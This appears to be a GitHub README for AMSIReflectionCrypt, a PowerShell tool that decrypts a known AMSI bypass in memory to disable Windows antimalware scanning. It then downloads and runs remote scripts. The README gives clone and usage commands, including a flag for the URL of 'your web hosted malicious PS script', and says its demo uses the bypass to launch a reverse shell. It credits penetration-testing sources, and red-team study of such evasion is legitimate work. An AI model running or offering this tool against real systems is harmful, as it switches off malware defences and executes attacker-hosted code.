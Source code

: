 # AMSIReflectionCrypt
Forcing AMSI Fail by Decrypting 'Matt Graebers one-liner AMSI bypass' in memory [AES-128]
and invoke PowerShell command execution from remote scripts after AMSI is bypassed.

in the example shown, the bypass is used to Invoke a reverse shell after AMSI is bypassed:

![ezgif com-resize (2)](https://user-images.githubusercontent.com/91469978/229790638-09003b42-08cd-4a4f-9a43-db74ee5ff4e9.gif)

# Usage
```
  git clone https://github.com/M0M3NTUM44/AMSIReflectionCrypt.git
  cd AMSIReflectionCrypt
  .\AMSIReflectionCrypt.ps1 -h
```
  -ts  Invoke the TestScript.ps1 from GitHub.
```
.\AMSIReflectionCrypt.ps1 -ts
```
  -u   Full path to your web hosted malicious PS script (Default - TestScript.ps1 from GitHub).
```
.\AMSIReflectionCrypt.ps1 -u https://PATH/TO/script.ps1
```
The TestScript.ps1 file simply types "amsiutils" (flagged string) to the terminal to test if AMSI detection was Bypassed.

# Credits & Resources
*https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/
*https://twitter.com/mattifestation
